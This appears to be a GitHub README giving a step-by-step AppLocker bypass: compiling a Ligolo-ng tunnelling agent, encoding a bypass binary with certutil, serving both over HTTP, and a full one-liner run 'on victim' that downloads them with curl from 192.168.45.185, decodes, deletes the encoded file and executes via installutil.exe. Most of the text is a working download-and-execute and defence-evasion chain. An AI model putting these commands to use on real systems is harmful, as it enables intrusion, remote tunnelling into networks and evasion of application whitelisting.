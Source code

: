 ### <ins>Step 1: Modify the Ligolo-ng agent's main file</ins>
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  - <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### <ins>Step 2: Compile the agent<ins/> 
  - Use the following command to compile: 
  - GOOS=windows go build -o agent.exe cmd/agent/main.go

### <ins>Step 3: Encode the ApplockerBypassExternalBinary executable with certutil<ins/> 
  - certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.

### <ins>Step 4: Execution on the Target Machine<ins/>
  - Name the agent executable `ligolo-agent.exe` 
  - Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### <ins/>Step 5: Execution in Action!<ins/> 
  - On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
